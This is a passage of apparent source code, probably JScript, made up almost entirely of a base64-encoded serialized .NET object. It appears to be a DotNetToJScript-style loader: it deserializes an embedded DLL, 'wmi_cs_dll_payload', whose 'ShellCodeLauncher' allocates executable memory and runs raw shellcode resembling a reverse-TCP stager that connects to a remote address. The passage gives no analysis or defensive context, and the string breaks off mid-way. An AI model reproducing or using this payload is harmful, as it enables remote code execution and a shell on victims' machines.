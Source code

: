    } 
    
    var serialized_obj = "AAEAAAD/AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy"+
    "AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph"+
    "dGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5IlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xk"+
    "ZXIvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIJAgAAAAkD"+
    "AAAACQQAAAAEAgAAADBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRl"+
    "RW50cnkHAAAABHR5cGUIYXNzZW1ibHkGdGFyZ2V0EnRhcmdldFR5cGVBc3NlbWJseQ50YXJnZXRU"+
    "eXBlTmFtZQptZXRob2ROYW1lDWRlbGVnYXRlRW50cnkBAQIBAQEDMFN5c3RlbS5EZWxlZ2F0ZVNl"+
    "cmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQYFAAAAL1N5c3RlbS5SdW50aW1lLlJlbW90"+
    "aW5nLk1lc3NhZ2luZy5IZWFkZXJIYW5kbGVyBgYAAABLbXNjb3JsaWIsIFZlcnNpb249Mi4wLjAu"+
    "MCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BgcAAAAH"+
    "dGFyZ2V0MAkGAAAABgkAAAAPU3lzdGVtLkRlbGVnYXRlBgoAAAANRHluYW1pY0ludm9rZQoEAwAA"+
    "ACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQd0YXJnZXQw"+
    "B21ldGhvZDADBwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVu"+
    "dHJ5Ai9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgkLAAAA"+
    "CQwAAAAJDQAAAAQEAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9u"+
    "SG9sZGVyBgAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlCk1lbWJlclR5"+
    "cGUQR2VuZXJpY0FyZ3VtZW50cwEBAQEAAwgNU3lzdGVtLlR5cGVbXQkKAAAACQYAAAAJCQAAAAYR"+
    "AAAALFN5c3RlbS5PYmplY3QgRHluYW1pY0ludm9rZShTeXN0ZW0uT2JqZWN0W10pCAAAAAoBCwAA"+
    "AAIAAAAGEgAAACBTeXN0ZW0uWG1sLlNjaGVtYS5YbWxWYWx1ZUdldHRlcgYTAAAATVN5c3RlbS5Y"+
    "bWwsIFZlcnNpb249Mi4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdh"+
    "NWM1NjE5MzRlMDg5BhQAAAAHdGFyZ2V0MAkGAAAABhYAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNz"+
    "ZW1ibHkGFwAAAARMb2FkCg8MAAAAABQAAAJNWpAAAwAAAAQAAAD//wAAuAAAAAAAAABAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAADh+6DgC0Cc0huAFMzSFUaGlzIHByb2dy"+
    "YW0gY2Fubm90IGJlIHJ1biBpbiBET1MgbW9kZS4NDQokAAAAAAAAAFBFAABMAQMAVC1CXAAAAAAA"+
    "AAAA4AACIQsBCwAADAAAAAYAAAAAAAAOKgAAACAAAABAAAAAAAAQACAAAAACAAAEAAAAAAAAAAQA"+
    "AAAAAAAAAIAAAAACAAAAAAAAAwBAhQAAEAAAEAAAAAAQAAAQAAAAAAAAEAAAAAAAAAAAAAAAwCkA"+
    "AEsAAAAAQAAA0AIAAAAAAAAAAAAAAAAAAAAAAAAAYAAADAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAIAAAAAAAAAAAAAAAIIAAASAAAAAAAAAAA"+
    "AAAALnRleHQAAAAUCgAAACAAAAAMAAAAAgAAAAAAAAAAAAAAAAAAIAAAYC5yc3JjAAAA0AIAAABA"+
    "AAAABAAAAA4AAAAAAAAAAAAAAAAAAEAAAEAucmVsb2MAAAwAAAAAYAAAAAIAAAASAAAAAAAAAAAA"+
    "AAAAAABAAABCAAAAAAAAAAAAAAAAAAAAAPApAAAAAAAASAAAAAIABQBEIgAAfAcAAAMAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQgIoBAAACgAA"+
    "KAIAAAYAACoAAAAAAAAA/OiCAAAAYInlMcBki1Awi1IMi1IUi3IoD7dKJjH/rDxhfAIsIMHPDQHH"+
    "4vJSV4tSEItKPItMEXjjSAHRUYtZIAHTi0kY4zpJizSLAdYx/6zBzw0BxzjgdfYDffg7fSR15FiL"+
    "WCQB02aLDEuLWBwB04sEiwHQiUQkJFtbYVlaUf/gX19aixLrjV1oMzIAAGh3czJfVGhMdyYHiej/"+
    "0LiQAQAAKcRUUGgpgGsA/9VqCmjAqAEEaAIAADWJ5lBQUFBAUEBQaOoP3+D/1ZdqEFZXaJmldGH/"+
    "1YXAdAr/Tgh17OhnAAAAagBqBFZXaALZyF//1YP4AH42izZqQGgAEAAAVmoAaFikU+X/1ZNTagBW"+
    "U1doAtnIX//Vg/gAfShYaABAAABqAFBoCy8PMP/VV2h1bk1h/9VeXv8MJA+FcP///+mbAcMp"+
    "xnXBw7vwtaJWagBT/9UAAAATMAYAZQAAAAEAABEAIFUBAACNBgAAASXQAwAABCgGAAAKChYGjml+"+
    "AQAABH4CAAAEKAMAAAYLBhYHbigHAAAKBo5pKAgAAAoAfgkAAAoMFg1+CQAAChMEFhYHEQQWEgMo"+
    "BAAABgwIFSgFAAAGJisAKkogABAAAIABAAAEH0CAAgAABCpCU0pCAQABAAAAAAAMAAAAdjQuMC4z"+
    "MDMxOQAAAAAFAGwAAABgAgAAI34AAMwCAABkAwAAI1N0cmluZ3MAAAAAMAYAAAgAAAAjVVMAOAYA"+
    "ABAAAAAjR1VJRAAAAEgGAAA0AQAAI0Jsb2IAAAAAAAAAAgAAAVfVAjQJAgAAAPolMwAWAAABAAAA"+
    "DwAAAAQAAAADAAAABgAAAAwAAAALAAAABAAAAAEAAAABAAAAAQAAAAEAAAADAAAAAQAAAAEAAAAB"+
    "AAAAAQAAAAAACgABAAAAAAAGAEsARAAGAFsBPwEGAHcBPwEGAKYBhgEGAMYBhgEGAPcBRAAGAEEC"+
    "hgEGAFwCRAAGAJgChgEGAKcCRAAGAK0CRAAGANACRAAGAAID4wIGABQD4wIGAEcDNwMAAAAAAQAA"+
    "AAAAAQABAAEAEAAhACkABQABAAEAAAAAAPwBAAAFAAMABwATAQAAZgIAACEABAAHABEAXQASABEA"+
    "aAASABMBhAI+AFAgAAAAAIYYUgAKAAEAwCEAAAAAkQBYAA4AAQAAAAAAgACRIH8AFQABAAAAAACA"+
    "AJEgjAAdAAUAAAAAAIAAkSCZACgACwAxIgAAAACRGDADDgANAAAAAQCtAAAAAgC5AAAAAwC+AAAA"+
    "BADPAAAAAQDZAAAAAgDsAAAAAwD4AAAABAAHAQAABQANAQAABgAdAQAAAQAoAQAAAgAwAREAUgAu"+
    "ACEAUgA0ACkAUgAKAAkAUgAKADkAUgAKAEkAwAJCAGEA1wJKAGkACgNPAGEADwNYAHEAUgBkAHkA"+
    "UgAKACcAWwA5AC4AEwBpAC4AGwByAGMAKwA5AAgABgCRAAEAVQEAAAQAWwAnAwABBwB/AAEAAAEJ"+
    "AIwAAQAAAQsAmQABAGggAAADAASAAAAAAAAAAAAAAAAAAAAAAOQBAAAEAAAAAAAAAAAAAAABADsA"+
    "AAAAAAQAAwAAAAA8TW9kdWxlPgB3bWlfY3NfZGxsX3BheWxvYWQuZGxsAFByb2dyYW0AU2hlbGxD"+
    "b2RlTGF1bmNoZXIAbXNjb3JsaWIAU3lzdGVtAE9iamVjdAAuY3RvcgBNYWluAE1FTV9DT01NSVQA"+
    "UEFHRV9FWEVDVVRFX1JFQURXUklURQBWaXJ0dWFsQWxsb2MAQ3JlYXRlVGhyZWFkAFdhaXRGb3JT"+
    "aW5nbGVPYmplY3QAbHBTdGFydEFkZHIAc2l6ZQBmbEFsbG9jYXRpb25UeXBlAGZsUHJvdGVjdABs"+
    "cFRocmVhZEF0dHJpYnV0ZXMAZHdTdGFja1NpemUAbHBTdGFydEFkZHJlc3MAcGFyYW0AZHdDcmVh"+
    "dGlvbkZsYWdzAGxwVGhyZWFkSWQAaEhhbmRsZQBkd01pbGxpc2Vjb25kcwBTeXN0ZW0uU2VjdXJp"+
    "dHkuUGVybWlzc2lvbnMAU2VjdXJpdHlQZXJtaXNzaW9uQXR0cmlidXRlAFNlY3VyaXR5QWN0aW9u"+
    "AFN5c3RlbS5SdW50aW1lLkNvbXBpbGVyU2VydmljZXMAQ29tcGlsYXRpb25SZWxheGF0aW9uc0F0"+
    "dHJpYnV0ZQBSdW50aW1lQ29tcGF0aWJpbGl0eUF0dHJpYnV0ZQB3bWlfY3NfZGxsX3BheWxvYWQA"+